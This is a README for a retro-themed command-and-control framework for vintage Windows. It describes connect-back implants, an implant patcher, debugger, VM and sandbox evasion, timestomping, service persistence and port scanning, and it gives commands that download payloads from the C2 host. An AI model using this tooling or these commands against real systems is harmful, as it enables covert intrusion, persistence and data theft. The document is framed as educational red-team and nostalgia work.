





# ÆldreC2 - C2 for the masses

> "Shall we play a game?"

## Quick Start

```bat
rem 1. Build the tools
build-c2.sh

rem 2. Start the controller on your operator box
joshua.exe
rem   Joshua immediately listens on :4444
rem   Session list panel on the left shows connected implants

rem 3. Scan the target network
grid 169.254.69.0/24 -p 22,80,443,3389,445 -b
rem   Open ports printed as they are found; redirect for parsing:
grid -q 169.254.69.0/24 -p 1-1024 > results.txt

rem 4. Generate a customised implant
clu.exe
rem   GUI: browse to tank.exe as template, set C2 host/port, click Generate

rem 5. Run the implant on the target — it calls home to Joshua
rem   Joshua shows a new MDI child: "Tank: hostname  OS [ready]"
rem   Tank menu: Sysinfo / Process List / Get File / Put File / Screenshot
```

ÆldreC2 is an experimental Command & Control framework targeting vintage Microsoft Windows environments, with a primary focus on Windows 3.1x and Win32s compatibility.

The project explores what a reasonably capable remote administration framework might have looked like if developed during the early-to-mid 1990s, while taking advantage of modern cryptography and contemporary development practices where practical.

**Repository name:** `aeldreC2`
**Project name:** `ÆldreC2`

---

## Project Goals

* Support Windows 3.1 and Windows for Workgroups 3.11
* Support Win32s applications where available
* Provide secure communications over modern networks
* Remain faithful to the user interface and design conventions of the early 1990s
* Be educational, nostalgic, and technically interesting

---

## Architecture

### Joshua

The central C2 server.

Named after the WOPR computer in the film *WarGames*.

Joshua is responsible for:

* Session management
* Operator authentication
* Task distribution
* Implant management
* TLS session handling
* Logging and audit records

---

### Tank Programs

Remote implants.

Named after the Tank Programs from *Tron*.

Tank Programs provide:

* Remote command execution
* File transfer
* Host information gathering
* Registry interaction
* Process inspection
* Network diagnostics

---

### Lightman

CLI operator client.

Named after David Lightman from *WarGames*.

Connects to a running Joshua instance using the server key. Runs in a GUI window compatible with Win32s / NT 3.1+. Planned Linux support in a future release.

---

### Flynn

GUI operator client with the same feature parity as Lightman.

Named after Kevin Flynn from *Tron*.

Two-pane layout (operator list + log). Connection settings entered via dialog on startup; host/port/key can also be pre-filled from the command line.

---

### CLU

The implant generator.

Named after the Codified Likeness Utility from *Tron*.

Responsibilities:

* Generate customised implants
* Configure callback parameters
* Configure encryption settings
* Produce Win16 and Win32s builds
* Generate deployment packages

---

### Recognizer

Host environment validation and anti-analysis module.

Named after the Recognizers from *Tron*.

Capabilities may include:

* Virtual machine detection
* Debugger detection
* Sandbox detection
* Timing checks
* Environment validation

---

## Features

### Core

* Multi-session control
* Session grouping
* Session tagging
* Session notes
* Operator console
* Event logging
* Audit trail

### Networking

* Native Winsock support
* TCP communications
* Proxy support
* DNS resolution
* Reconnect handling
* Multi-homed network support

### Security

* TLS/SSL support
* Certificate validation
* Encrypted communications
* Secure session negotiation

TLS functionality is provided by the PuTTY-Win32 project.

### User Interface

* Multiple Document Interface (MDI)
* Multiple session windows
* Session manager
* Event viewer
* Transfer manager
* Host information windows
* Configuration editor
* Context-sensitive help

The very best 1993 had to offer.

### Themes

Theme support is planned.

As the Hackers Reference Manual famously states:

> They're trashing our rights.

Naturally this requires configurable colour schemes.

---

## Supported Platforms

### Controller

* Windows 3.1
* Windows for Workgroups 3.11
* Win32s
* Windows NT 3.x
* Windows 95 (best effort)

### Tank Programs

* Windows 3.1
* Windows for Workgroups 3.11
* Win32s
* Windows 95
* Windows NT

---

## Planned Capabilities

### Remote Administration

* Remote command execution
* Remote shell
* Environment variable viewing
* System information collection
* User information collection

### Process Management

* Process listing
* Process termination
* Process information
* Task monitoring

### File Operations

* File upload
* File download
* Directory browsing
* File deletion
* File renaming
* File search

### Registry Operations

* Registry viewing
* Registry searching
* Registry export
* Registry editing (optional)

### Networking

* Connection enumeration
* Route table viewing
* Hostname resolution
* Interface information
* Remote ping
* Basic service discovery

### Monitoring

* Event logging
* Session timeline
* Connection statistics
* Host inventory

---

## Design Philosophy

ÆldreC2 is intended to feel like software that could plausibly have been demonstrated at COMDEX in 1994.

This means:

* Native Windows UI
* Menus instead of ribbons
* Dialog boxes instead of web interfaces
* MDI everywhere
* Keyboard shortcuts for everything
* Minimal dependencies
* Maximum nostalgia

---

## Tools

All binaries are built to `windows/`. Build all at once with `./build-c2.sh`, or individual tools by name.

| Binary | Platform | Role |
|--------|----------|------|
| `joshua.exe` | Win32s / NT / 95 | C2 controller (MDI GUI) |
| `tank.exe` | Win32s / NT / 95 | Implant — connect-back agent |
| `tank16.exe` | Win 3.1 / WFW 3.11 | Implant — 16-bit connect-back agent |
| `clu.exe` | Win32s / NT / 95 | Implant generator / binary patcher |
| `lightman.exe` | Win32s / NT / 95 | CLI operator client (connects to Joshua) |
| `flynn.exe` | Win32s / NT / 95 | GUI operator client (connects to Joshua) |
| `ncwfw.exe` | Win32s / NT / 95 | Netcat-style TCP relay |
| `grid.exe` | Win32s / NT / 95 | TCP port scanner (GUI / auto-detect) |
| `gridcli.exe` | Win32 / NT / 95 | TCP port scanner (pure console, for command.com) |
| `ncnt.exe` | Win32 / NT 3.1+ | Netcat for NT — inspired by Weld Pond (L0pht, ~1998) |
| `svcany.exe` | Win32 / NT 3.1+ | Install/remove/start/stop any executable as an NT service |
| `regcli.exe` | Win32 / NT 3.1+ | CLI registry tool for NT 3.x/4.x (fills gap before reg.exe) |
| `whoami.exe` | Win32 / NT 3.1+ | whoami for NT 3.x (username, domain, SID, groups, privs) |
| `arp.exe` | Win32 / NT 4+ | ARP table viewer + ICMP ping sweep |
| `stager.exe` | Win32 / NT 3.1+ | Tiny HTTP file server — serve a file once then exit |
| `clip.exe` | Win32 / NT 3.1+ | Clipboard read/write from command line |
| `timestmp.exe` | Win32 / NT 3.1+ | File timestamp copy and set — 8.3: timestmp (authorised forensic testing) |
| `yori16.exe` | Win 3.1 / WFW 3.11 | Remote screen/control server — Win16 (no Win32s needed) |
| `yori32.exe` | Win32s / Win95 / NT 3.1+ | Remote screen/control server — Win32 |
| `yoriview.exe` | Win32 / NT 4+ | Remote screen viewer — operator side (codename: THE_UNIVERSAL) |
| `ipcalc32.exe` | Win32s / NT / 95 | Subnet calculator |
| `ipcalc16.exe` | Win 3.1 / WFW 3.11 | Subnet calculator (16-bit) |
| `markuped.exe` | Win32s / NT / 95 | Markdown editor (split-pane, live preview) |
| `wget.exe` | Win32s / NT / 95 | Command-line HTTP/HTTPS/FTP downloader |
| `wget16.exe` | Win 3.1 / WFW 3.11 | Command-line HTTP downloader (16-bit) |

> All examples below use `example.com` as the target host, `169.254.69.0/24` as the target LAN, and `172.16.93.0/16` as the C2 infrastructure range. Neither subnet is internet-routable.

---

### joshua.exe — C2 Controller

```bat
rem Start the controller; it listens immediately on TCP 4444
joshua.exe
```

On startup, Joshua generates an 8-digit hex **server key** and prints it in the Server Log window:

```
===== AeldreC2 Joshua =====
Server key : A3F7B291
Connect with:
  lightman.exe <your-ip> 4444 A3F7B291
  flynn.exe    <your-ip> 4444 A3F7B291
===========================
```

Sessions (tanks + operator clients) appear in the left panel. Each session opens as an MDI child window. Use the Tank menu to issue tasks: Sysinfo, Process List, Directory Listing, Get File, Put File, Screenshot.

**Operator / moderator commands** — type in the Server Log console or send from an operator client:

| Command | Who | Effect |
|---------|-----|--------|
| `/givemod <handle>` | console (always) or mod | Promote operator to moderator |
| `/removemod <handle>` | console or mod | Demote moderator (last mod protected) |
| `/ops` | any | List connected operators |
| `/tanks` | any | List connected implants |
| `/kick <handle>` | console or mod | Disconnect an operator |
| `/key` | console only | Re-display the server key |

---

### lightman.exe — CLI Operator Client

Named after David Lightman from *WarGames*.

```bat
lightman.exe 172.16.93.1 4444 A3F7B291
rem  Prompts for your handle (nom-de-plume), then connects
```

A single window shows the operator log. Type commands or chat in the input field at the bottom. Admin commands start with `/`.

---

### flynn.exe — GUI Operator Client

Named after Kevin Flynn from *Tron*.

```bat
flynn.exe
rem  Connection dialog: host, port, key, handle — then connects
rem  Or pre-fill from command line:
flynn.exe 172.16.93.1 4444 A3F7B291
```

Two-pane layout: operator list on the left, log + input on the right.

---

---

### tank.exe / tank16.exe — Implants

```bat
rem Build implants pre-configured for the C2 host
C2HOST=172.16.93.1 C2PORT=4444 ./build-c2.sh tank
C2HOST=172.16.93.1 C2PORT=4444 ./build-c2.sh tank16

rem Or patch an existing binary with CLU (no recompile)
clu.exe
```

**`tank.exe`** — Win32s, Windows NT 3.x, Windows 95 and later.  
**`tank16.exe`** — Windows 3.1 / WFW 3.11. Requires `WINSOCK.DLL` in the path (Trumpet Winsock or equivalent).

Both speak the same protocol; a single Joshua controller handles sessions from either.

---

### clu.exe — Implant Generator

Patches the C2 callback address and port into a built implant without recompiling.

```bat
rem 1. Open clu.exe
rem 2. Browse to tank.exe (or tank16.exe) as template
rem 3. Set C2 host: 172.16.93.1  Port: 4444
rem 4. Optionally tick TLS
rem 5. Browse to output path, click Generate
```

---

### ncwfw.exe — TCP Relay

Lightweight netcat for WFW. Optional TLS. Useful for pivoting or testing connectivity.

```bat
rem Connect to a service on the target LAN
ncwfw.exe 169.254.69.10 22

rem Connect to the C2 controller
ncwfw.exe 172.16.93.1 4444

rem Connect to a named host
ncwfw.exe example.com 443
```

---

### grid.exe — Port Scanner

TCP connect scan. Works on Win32s/WFW 3.11 with no threads — async pool via `select()`.

```bat
rem Scan the target LAN for common services
grid.exe 169.254.69.0/24 -p 22,80,443,3389,445 -b

rem Full first-1024 sweep to file (tab-delimited: HOST TAB PORT/tcp TAB open TAB SERVICE TAB BANNER)
grid.exe -q 169.254.69.0/24 -p 1-1024 > results.txt

rem Scan by DNS name
grid.exe example.com -p 80,443,8080,8443 -b

rem Verify C2 listeners are responding
grid.exe 172.16.93.1 -p 443,4444,8443 -b

rem Address range notation
grid.exe 169.254.69.1-254 -p 445
```

See [Grid — Port Scanner](#grid--port-scanner) below for the full option reference.

---

### ipcalc32.exe / ipcalc16.exe — Subnet Calculator

Calculates network, broadcast, host range, class, and RFC flags for a CIDR block or IP+mask.

```bat
rem Target LAN
ipcalc32.exe 169.254.69.0/24

rem C2 infra block
ipcalc32.exe 172.16.93.0/16

rem Host route
ipcalc32.exe 172.16.93.1/32

rem Specify by dotted mask
ipcalc32.exe 169.254.69.0 255.255.255.0

rem Write results to file (-o, scriptable)
ipcalc32.exe -o C:\TEMP\NETPLAN.TXT 169.254.69.0/24

rem Example output (169.254.69.0/24):
rem   Address:   169.254.69.0
rem   Netmask:   255.255.255.0 = 24
rem   Network:   169.254.69.0/24
rem   Broadcast: 169.254.69.255
rem   HostMin:   169.254.69.1
rem   HostMax:   169.254.69.254
rem   Hosts/Net: 254
rem   APIPA / link-local (RFC 3927)
```

`ipcalc16.exe` is the Win16 build of the same source — identical arguments and output, runs on Windows 3.1 / WFW 3.11.

---

### markuped.exe — Markdown Editor

Split-pane Markdown editor with live preview. Left pane is the raw source; right pane renders headers, bold/italic, inline code, fenced code blocks, blockquotes, lists, horizontal rules, and hyperlinks. A draggable splitter adjusts the pane ratio. Preview updates 500 ms after each keystroke.

```bat
rem Open the editor (blank document)
markuped.exe

rem Open a specific file directly
markuped.exe C:\NOTES\REPORT.MD
```

**Toolbar / keyboard shortcuts:**

| Button | Action | Shortcut |
|--------|--------|---------|
| New | New document | Ctrl+N |
| Open | Open .md / .txt | Ctrl+O |
| Save | Save | Ctrl+S |
| B | Wrap selection in `**bold**` | Ctrl+B |
| I | Wrap selection in `*italic*` | Ctrl+I |
| H1 / H2 / H3 | Prefix current line with `#` / `##` / `###` | — |
| `` ` `` | Wrap selection in `` `code` `` | — |
| ` ``` ` | Insert fenced code block | — |
| > | Prefix current line with `> ` (blockquote) | — |
| --- | Insert horizontal rule | — |
| - | Prefix current line with `- ` (list item) | — |
| — | Toggle preview pane | Ctrl+P |

All Format operations are also in the Format menu. File operations in the File menu. Edit menu provides Undo/Cut/Copy/Paste/Select All.

---

### wget.exe / wget16.exe — File Downloader

Command-line HTTP/HTTPS/FTP downloader. When launched from `cmd.exe` or `command.com`, progress is written to stderr. When launched from Program Manager, a small GUI window shows URL, filename, progress bar, and a Stop button.

```bat
rem Download a file over HTTP
wget.exe http://example.com/files/tools.zip

rem Download and save with a specific name
wget.exe http://172.16.93.1/payloads/agent.bin -O C:\TEMP\AGENT.BIN

rem Download over HTTPS (requires WININET.DLL — IE 3+)
wget.exe https://example.com/report.pdf -O REPORT.PDF

rem Quiet mode — no progress output
wget.exe http://172.16.93.1/data.dat -O DATA.DAT -q

rem FTP (anonymous login, binary transfer)
wget.exe ftp://172.16.93.1/pub/toolkit.zip
```

`wget16.exe` is the Win16 build. HTTP only — no HTTPS or FTP. Loads `WINSOCK.DLL` dynamically, so it works on any WFW 3.11 / Win 3.1 installation that has a Winsock stack.

```bat
rem Win16 HTTP download
wget16.exe http://172.16.93.1/pkg.zip -O PKG.ZIP
```

**Options:**

| Flag | Description |
|------|-------------|
| `-O <file>` | Output filename (default: derived from URL path) |
| `-q` | Quiet — suppress progress output / GUI window |

---

## Grid — Port Scanner

`windows/grid.c` — Win32s/Win32 TCP connect scanner. GUI subsystem, async select-pool, no threads; runs on Win32s and WFW 3.11 through Windows NT 4.

### Quick reference

```
grid <target> -p <ports> [options]

  target    x.x.x.x | x.x.x.x/24 | x.x.x.1-254 | hostname
  -p        80 | 1-1024 | 22,80,443 | 1-100,443,8080
  -t ms     connect timeout (default 500 ms)
  -b        banner grab (reads first line after connect)
  -q        quiet mode — machine-readable, no colour, no progress bar
  -T n      pool size / max concurrent connects (default 64, max 256)
```

When stdout is a terminal, grid draws a progress bar and colour-codes
open ports. When stdout is redirected, output is plain tab-delimited:

```
HOST<TAB>PORT/tcp<TAB>open<TAB>SERVICE<TAB>BANNER
```

Examples:

```bat
rem Scan common ports on the target LAN
grid 169.254.69.0/24 -p 22,80,443,3389,445 -b

rem Pipe parseable results into a file
grid -q 169.254.69.0/24 -p 1-1024 > results.txt

rem Single host, full port range, max pool
grid 172.16.93.1 -p 1-65535 -T 256 -t 200
```

### Data files

Service names are loaded from `SERVICES.DAT` (nmap-services format).
Grid looks for it next to `grid.exe`, or in `%GRIDDATA%\SERVICES.DAT`.

Fetch the nmap GPL data files and rename to 8.3 filenames:

```sh
./fetch-nmap-data.sh        # fetches SERVICES.DAT, PROTOS.DAT, NMAPRPC.DAT, MACPFX.DAT
./fetch-nmap-data.sh -a     # also fetches OSDB.DAT and SVCPRO.DAT (large)
```

Copy `SERVICES.DAT` next to `grid.exe` before use.

| 8.3 name        | Original nmap file       |
|-----------------|--------------------------|
| `SERVICES.DAT`  | `nmap-services`          |
| `PROTOS.DAT`    | `nmap-protocols`         |
| `NMAPRPC.DAT`   | `nmap-rpc`               |
| `MACPFX.DAT`    | `nmap-mac-prefixes`      |
| `OSDB.DAT`      | `nmap-os-db`             |
| `SVCPRO.DAT`    | `nmap-service-probes`    |

nmap data files are GPL-licensed. See https://nmap.org/book/man-legal.html

---

## TODO

### Future Work

* Session scripting
* Plugin architecture
* Macro support
* Integrated packet viewer
* Network mapping
* Historical Windows theme packs
* Sound support for session events
* WinG visual enhancements
* Offline log analysis
* **Win3.11 installer** — a proper `SETUP.EXE`-style installer in the tradition of UltraEdit, WinZip 5.x etc. Wizard dialogs, progress meter, Program Manager group auto-creation, optional component selection. Needs to run on bare WFW 3.11 with no prerequisites.
* **Easter egg** — ø keypress in any tool pops the easter egg. (Much later; it's a trademark. Don't implement early.)

---

## Implementation Status

### Implemented

| Component | File | Notes |
|-----------|------|-------|
| **Joshua** | `windows/joshua.c` | MDI C2 controller. Listens on :4444, auto-restarts listener. Session list panel (left), Tank banner parsing, file receive state machine, put/screenshot commands, Schannel TLS (outbound). |
| **Tank (Win32)** | `windows/tank.c` | Connect-back implant, Win32s compatible. Commands: sysinfo, ps, ls, get, put, regq, screenshot. Schannel TLS (blocking). CLU patchable config block. Calls recognizer_check() on startup. |
| **Tank (Win16)** | `windows/tank16.c` | Connect-back implant for Windows 3.1/WFW without Win32s. Commands: sysinfo, ls, get, put, shell exec. 16-bit Winsock via dynamic WINSOCK.DLL load. CLU patchable. |
| **CLU** | `windows/clu.c` | Win32 GUI generator. Scans template binary for magic `AELDRECLU0001`, patches host/port/tls in-place. Browse dialogs for template and output. |
| **Recognizer** | `windows/recognizer.c` | Anti-analysis module. Inactive stub by default; activate with `-DRECOGNIZER_ENABLE`. Checks: IsDebuggerPresent, VMware/VBox/VirtualPC registry keys, sandbox usernames, timing. |
| **ncwfw** | `windows/ncwfw.c` | MDI netcat (TCP + optional TLS). Standalone test/debug tool. |
| **Grid** | `windows/grid.c` | Win32s/Win32 port scanner. GUI subsystem, async select-pool (no threads), Winsock 1.1. CIDR/range targets, per-port service lookup from SERVICES.DAT, optional banner grab, tab-delimited parseable output when redirected, results window on Win32s. |
| **ipcalc32** | `windows/ipcalc.c` | Win32s/Win32 subnet calculator. Network/broadcast/host range, class, RFC 1918 / APIPA / multicast flags. CLI-scriptable; `-o file` writes results to disk; stdout when redirected. |
| **ipcalc16** | `windows/ipcalc.c` | Win16 subnet calculator (same source as ipcalc32). Runs on Windows 3.1 / WFW 3.11. Identical CLI and output. |
| **markuped** | `windows/markuped.c` | Win32s/Win32 Markdown editor. Split-pane (source + live preview), toolbar, menus, inline bold/italic/code rendering, fenced code blocks, blockquotes, lists, HR. Draggable splitter, 500 ms debounced refresh. comdlg32 for file dialogs. |
| **wget** | `windows/wget.c` | Win32s/Win32 HTTP/HTTPS/FTP downloader. WinInet dynamically loaded for HTTPS/FTP (ignores SSL errors); raw socket fallback for plain HTTP when WinInet absent. GUI progress window or stderr progress in console mode. |
| **wget16** | `windows/wget.c` | Win16 HTTP downloader (same source as wget). WINSOCK.DLL loaded dynamically. HTTP only; no HTTPS/FTP. GUI MessageBox completion notification. |

### Icons

All icons are 32×32 + 16×16, 4bpp Windows VGA palette, generated from `icons/` via `icons/win16ico.py` (Python 3 + Pillow).

To regenerate after changing a source image:
```sh
python3 icons/win16ico.py icons/<name>.png windows/<name>.ico
```

---

#### ÆldreC2 Icon Gallery

| Icon | Tool · Description | Reason for Icon |
|:----:|-------------------|-----------------|
|  | **`joshua.exe`** — C2 controller (MDI, multi-session) | |
|  | **`tank.exe`** · **`tank16.exe`** — Connect-back implant | |
|  | **`lightman.exe`** — CLI operator client | |
|  | **`flynn.exe`** — GUI operator client (two-pane) | |
|  | **`clu.exe`** — Implant generator / binary patcher | |
|  | **Recognizer module** — Anti-analysis stub | |
| | | |
|  | **`grid.exe`** — TCP port scanner (GUI, colour themes) | |
|  | **`gridcli.exe`** — TCP port scanner (console, command.com) | |
|  | **`ncwfw.exe`** — Netcat for WFW (tabbed MDI, Win16) | |
|  | **`ncnt.exe`** — Netcat for NT (console, Weld Pond tribute) | |
|  | **`arp.exe`** — ARP table viewer + ICMP ping sweep | |
|  | **`stager.exe`** — HTTP file staging server | |
| | | |
|  | **`ipcalc32.exe`** · **`ipcalc16.exe`** — Subnet calculator | |
|  | **`wget.exe`** · **`wget16.exe`** — HTTP/HTTPS/FTP downloader | |
|  | **`markuped.exe`** — Markdown editor (split-pane, live preview) | |
|  | **`svcany.exe`** — NT service installer + autorun persistence | |
|  | **`regcli.exe`** — CLI registry tool for NT 3.x / 4.0 | |
|  | **`whoami.exe`** — Identity / SID / groups for pre-XP NT | |
|  | **`clip.exe`** — Clipboard read / write from command line | |
|  | **`timestmp.exe`** — File timestamp copy and set | |
| | | |
|  | **`yori16.exe`** · **`yori32.exe`** — Remote screen/control server | |
|  | **`yoriview.exe`** — Remote screen viewer · codename **THE\_UNIVERSAL** | |

---

## Localisation

All user-visible strings are in `windows/strings_<lang>.rc` files.  The runtime language is chosen at startup via `GetUserDefaultLangID()` with a fallback to British English.

| File | Language | LANGID |
|------|----------|--------|
| `strings_en_gb.rc` | English (British) — default | 0x0809 |
| `strings_en_us.rc` | English (United States) | 0x0409 |
| `strings_da.rc` | Dansk | 0x0406 |
| `strings_de.rc` | Deutsch | 0x0407 |

To add a language: copy `strings_en_gb.rc`, translate all strings, add a block for the new LANGID in `lang_detect()` in `lang.h`.

---

## Win32s

Win32s is required to run Win32 tools on Windows 3.11 / WFW 3.11.

```sh
./fetch-win32s.sh   # downloads pw1232.exe (Win32s 1.30c redistributable)
```

The setup installer (`setup16.exe`) probes for Win32s at startup and warns if absent.

---

## Testing

```sh
pip install pytest requests
```

Tests live in `tests/`. Wine is required for the Wine-dependent tests; they auto-skip if `wine` is not in PATH.

```sh
# Run everything that doesn't need a live C2 build
pytest tests/ -v

# Run the full C2 protocol suite (needs Docker + Wine)
C2_INTEGRATION=1 pytest tests/test_c2_protocol.py -v
```

| Test file | What it covers |
|-----------|----------------|
| `test_ipcalc.py` | ipcalc32.exe — subnet calculation output, flags (APIPA, RFC 1918, multicast), file output, dotted-mask input |
| `test_grid.py` | grid.exe — open/closed port detection, TSV output format, banner grab, `-t`/`-T` flags |
| `test_wget.py` | wget.exe — HTTP download, `-O` filename, `-q` quiet mode, binary integrity, large payloads, connection-refused exit code |
| `test_clu.py` | CLU magic signature in tank.exe/tank16.exe, config block round-trip patch, NE/PE binary format checks, GUI smoke test |
| `test_c2_protocol.py` | Tank→Joshua TCP connection, initial SYSINFO message, binary format assertions (NE/PE headers). Integration tests gated on `C2_INTEGRATION=1`. |

---

## Building

### Prerequisites

- **OpenWatcom 2.0** — provides `wcl386` (Win32), `wcc` (Win16), `wlink`, `wrc`
- **i686-w64-mingw32-windres** — for `.rc` resource compilation
- The repo includes a Docker image `putty-win32s-builder` with all tools pre-installed

### Docker build (recommended)

```bat
cd windows
docker run --rm -v "%CD%:/src" putty-win32s-builder wmake -f Makefile.wc joshua
docker run --rm -v "%CD%:/src" putty-win32s-builder wmake -f Makefile.wc tank
docker run --rm -v "%CD%:/src" putty-win32s-builder wmake -f Makefile.wc tank16
docker run --rm -v "%CD%:/src" putty-win32s-builder wmake -f Makefile.wc clu
```

On macOS/Linux replace `%CD%` with `$(pwd)`.

### Standalone C2 tools only (skip PuTTY objects)

```bat
wmake -f Makefile.wc joshua
wmake -f Makefile.wc tank
wmake -f Makefile.wc tank16
wmake -f Makefile.wc clu
wmake -f Makefile.wc ncwfw
```

### Override C2 callback address at compile time

No shell quoting needed — pass the IP bare, without quotes:

```bash
# Via build script (recommended)
C2HOST=172.16.93.1 C2PORT=443 ./build-c2.sh tank

# Via wmake directly
wmake -f Makefile.wc tank.exe XFLAGS=-DTANK_C2_HOST=172.16.93.1
wmake -f Makefile.wc tank.exe XFLAGS="-DTANK_C2_HOST=172.16.93.1 -DTANK_C2_PORT=443"
```

The source uses `#`-stringification (`TANK_STR(x)`) so the IP is converted to a
string literal by the preprocessor. This avoids the shell-quoting nightmare that
comes with trying to pass `"x.x.x.x"` through wmake macro expansion.

The default in the source is `127.0.0.1` — use CLU to patch a deployed binary
rather than rebuilding with a hardcoded address for each engagement.

### Enable Recognizer (anti-analysis) in Tank

```bash
RECOGNIZER=1 ./build-c2.sh tank
# or
wmake -f Makefile.wc tank.exe XFLAGS=-DRECOGNIZER_ENABLE
```

---

## Testing

### Basic loopback test (same machine)

1. Start **Joshua.exe** — it immediately listens on TCP 4444
2. Run **Tank.exe** (built with default `127.0.0.1:4444`) on the same machine
3. Joshua shows a new MDI child: `Tank: <hostname> <OS> [ready]` and the session list on the left updates
4. Use the **Tank** menu: Sysinfo, Process List, Directory Listing, Get File, Put File, Screenshot

### Patching with CLU

1. Build `tank.exe` with default config (127.0.0.1:4444)
2. Run **clu.exe**, browse to `tank.exe` as template
3. Enter real C2 host/port, optionally tick TLS
4. Click **Generate** → patched binary ready for deployment

### Win16 Tank (tank16.exe)

Runs on Windows 3.1 or WFW 3.11. Requires `WINSOCK.DLL` (Trumpet Winsock or equivalent) in the path. Calls back to the same Joshua controller — the protocol is identical.

### Protocol summary

| Direction | Message | Meaning |
|-----------|---------|---------|
| Tank → Joshua | `Tank/1 host=X os=Y shell=Z\n` | Banner on connect |
| Joshua → Tank | `sysinfo\r\n` etc. | Command |
| Tank → Joshua | text lines | Command output |
| Tank → Joshua | `FILE:<n>\n` + n bytes | File transfer (get/screenshot) |
| Joshua → Tank | `put <path>\r\n` | Initiate upload |
| Tank → Joshua | `PUTREADY\n` | Ready to receive |
| Joshua → Tank | `PUTSIZE:<n>\n` + n bytes | File data |
| Tank → Joshua | `<<<DONE>>>\n` | End of response |

---

## Disclaimer

ÆldreC2 is an educational and research project intended for authorised administration, testing, and historical computing experimentation.

Users are responsible for ensuring compliance with all applicable laws, regulations, and policies.
